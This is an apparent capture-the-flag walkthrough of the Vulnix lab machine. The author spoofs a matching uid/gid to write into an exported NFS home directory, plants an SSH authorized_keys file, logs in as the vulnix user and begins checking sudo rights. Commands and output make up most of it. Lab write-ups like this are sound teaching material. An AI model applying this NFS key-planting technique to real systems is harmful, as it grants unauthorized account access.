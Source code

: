 __

The scan turned up the /etc/exports file, looks like the /home/vulnix directory is read/write.  Guess i need to learn more about NFS permissions.

https://serverfault.com/questions/240897/how-to-properly-set-permissions-for-nfs-folder-permission-denied-on-mounting-en

Maybe I need a vulnix user on my machine with a matching uid and guid?  The password file showed 2008 for both.

root@kali:~# useradd -u 2008 -g 2008 vulnix
useradd: group '2008' does not exist
root@kali:~# groupadd -g 2008 vulnix
root@kali:~# useradd -u 2008 -g 2008 vulnix

Still no go.  Wonder if my issue is with using nfspy to mount.

root@kali:/tmp# apt-get install nfs-common

Kali doesn't have NFS in mount by default?  Learn something every day.

root@kali:/tmp# mount -t nfs 192.168.118.188:/home/vulnix /tmp/mnt -nolock

root@kali:/tmp# cp ~/.ssh/id_rsa.pub .

vulnix@kali:/tmp/mnt$ mkdir .ssh
vulnix@kali:/tmp/mnt$ cd .ssh
vulnix@kali:/tmp/mnt/.ssh$ cp ../../id_rsa.pub authorized_keys
vulnix@kali:/tmp/mnt/.ssh$ ls -la
total 12
drwxr-xr-x 2 vulnix vulnix 4096 May 21  2017 .
drwxr-x--- 3 vulnix vulnix 4096 May 21 16:11 ..
-rw-r--r-- 1 vulnix vulnix  391 May 21  2017 authorized_keys

root@kali:~/vulnix# ssh -l vulnix 192.168.118.188
Welcome to Ubuntu 12.04.1 LTS (GNU/Linux 3.2.0-29-generic-pae i686)

 * Documentation:  https://help.ubuntu.com/

  System information as of Sun May 21 23:16:25 BST 2017

  System load:  0.0              Processes:           88
  Usage of /:   90.7% of 773MB   Users logged in:     0
  Memory usage: 13%              IP address for eth0: 192.168.118.188
  Swap usage:   0%

  => / is using 90.7% of 773MB

  Graph this data and manage this system at https://landscape.canonical.com/

New release '14.04.5 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

Last login: Sun May 21 23:16:07 2017 from 192.168.118.186
vulnix@vulnix:~$
vulnix@vulnix:~$ sudo -l
Matching 'Defaults' entries for vulnix on this host:
    env_reset, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
